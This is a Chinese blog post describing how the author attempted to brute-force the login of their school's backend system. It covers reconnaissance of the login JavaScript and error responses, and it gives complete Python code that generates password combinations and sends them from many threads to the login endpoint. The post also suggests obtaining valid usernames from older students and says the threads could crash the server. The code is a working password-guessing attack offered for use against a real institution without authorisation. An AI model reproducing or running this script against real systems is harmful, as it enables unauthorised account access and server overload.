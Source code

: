 ```yaml
---
title: 「危」暴力攻入学校的后台系统
date: "2021-05-29"
category: 日常
heroImg: https://www.hualigs.cn/image/60b24cbc1d501.jpg
---
```


危险操作，请酌情采用，本文仅提供暴力破解的思路，从一个实例中学习

本文不是专门针对学校，只是因为学校的服务器防御力比较高，在受到攻击的时候会很自觉地返回 **服务器压力过大**，即使从理论上来讲给埃拉两三年的时间可以破解进去，但是学校的响应速度也真的是感人，是个人都没有这种耐心（毕竟我没有那么多钱去应酬云服务器，而且浪费时间在这种无价值的地方也不是上策）

生成、创建进程、发送、等返回、关闭，一气呵成

## 侦察任务，勘探地形

如果你仔细发掘一下终端，你会发现几个重要的入口，埃拉这里是 `/theme/js/login.js` 的 Javascript 文件

![](https://www.hualigs.cn/image/60b25080753d8.jpg)

然后打开它来研究研究，你会发现存储用户名的变量竟然叫 `usrname`，密码是 `passwd`，并且序列化后就毫不犹豫地 POST 出去了，那么我们自己用 Postman 来试试看行不行

![](https://www.hualigs.cn/image/60b250ffbdabb.jpg)

然后装模做样地写好要传过去的数据（`学生会1` 这个用户名是埃拉通过小道消息得来的，通常你们可以试试看 admin 之类的）

![](https://www.hualigs.cn/image/60b2522570d02.jpg)

然后我们可以看到 `<p class="error">登录失败，密码错误.</p>` 这样的返回值（如果用户名不存在则会直接提示 `用户不存在`），现在我们就大概知道了几个重要的信息：

- 被攻击者的 URL
- 需要提供的数据
- 返回的数据

## 通过字典生成密码

```python
import itertools as its

def crack():
    words="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ@." # 你觉得可能出现的字符，密码多为 ASCII 码字符
    count=0
    for num in range(6,20): # 指定密码位数，这里是从 6~20 位
        keys=its.product(words,repeat=num)
        for key in keys:
            print("".join(key)) # 此时 "".join(key) 即为生成的密码
            count += 1
```

## 发送数据，处理返回值

```python
import requests
from bs4 import BeautifulSoup

def inject(passwd): # 这里传入刚刚生成的密码
    headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.110 Safari/537.36' }
    all_url = 'http://xxx.xxx.xx.xxx:30000/xxxxxx.php/base/login'  # 这里屏蔽一下 ipv4，免得学校找我麻烦
    start_html = requests.post(all_url,  headers=headers, json= {
        "usrname": "", # 问问你高二高三的学长，他们可能会告诉你用户名
        "passwd": passwd
    })
    soup = BeautifulSoup(start_html.text, 'lxml') # 使用 bs4 对返回的 html 进行解析
    try:
        if soup.select("p[class='error']")[0].getText() != "登录失败，密码错误.": # 剖析 html，提取出这个返回信息，如果不是这个返回信息，那就对了（因为用户名是已知的（对埃拉而言））
            print("[√ 成功破解] The PASSWD is '"+ passwd +"\n")
            with open('success.txt', 'w') as file:
                file.write("[√ 成功破解] The PASSWD is '"+ passwd +"\n") # 保存正确的密码
                file.close()
        else:
            print("[× 错误] "+passwd+"\n") # 输出错误的密码
    except:
        print("[× 异常] "+passwd+"\n") # 抛出异常
```

## 提升破解效率

如果我们只是使用刚刚的方法，那么每一次的破解都会在上一个破解完成后才进行，这样会 **很慢很慢**，所以我们可以使用多线程来克服这个问题，最终的代码如下

```python
"""
🍀 本代码理论上可行，但是需要充足的时间，起码三年吧，不取决于你的算力，而是他们的反应能力（恕我直言，我实在没见过这么垃圾的服务器）
【本代码在正常情况下禁止运行（除非迫不得已），否则后果自负！】
如果你要问我为什么搞这个，那么就问问考试院为什么要加 Python，以及，学校图书馆为什么教会了我爬虫和数据解析
"""
import requests
from bs4 import BeautifulSoup
import itertools as its
import _thread
import time

def inject(passwd,thread_name):
    headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.110 Safari/537.36' }
    all_url = 'http://xxx.xxx.xx.xxx:30000/xxxxxxx.php/base/login'
    start_html = requests.post(all_url,  headers=headers, json= {
        "usrname": "",
        "passwd": passwd
    })
    soup = BeautifulSoup(start_html.text, 'lxml')
    try:
        if soup.select("p[class='error']")[0].getText() != "登录失败，密码错误.":
            print("[√ 成功破解] The PASSWD is '"+ passwd + "'"+" 线程名："+thread_name+"\n")
            with open('success.txt', 'w') as file:
                file.write("[√ 成功破解] The PASSWD is '"+ passwd + "'"+" 线程名："+thread_name+"\n")
                file.close()
        else:
            print("[× 错误] "+passwd+" 线程名："+thread_name+"\n")
    except:
        print("[× 异常] "+passwd+" 线程名："+thread_name+"\n")
    _thread.exit() # 退出当前线程

def crack():
    words="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ@."
    count=0
    for num in range(6,20):
        keys=its.product(words,repeat=num)
        for key in keys:
            _thread.start_new_thread( inject, ("".join(key), "Thread-"+str(count), ) )
            time.sleep(0.05) # 如果你调成更小的数值，你就等校领导找上门来吧，因为服务器会直接崩溃！
            count += 1

if __name__ == "__main__":
    crack()
```

请注意控制好线程创建速度！如果你设置得太小，就算你的计算机承受的住，人家的服务器可能承受不住~

OK，就这么多了，同样的代码我已经发布到 Github Gist 上，可以进行查阅！🍀后续可能会再出一些克服验证码的方案！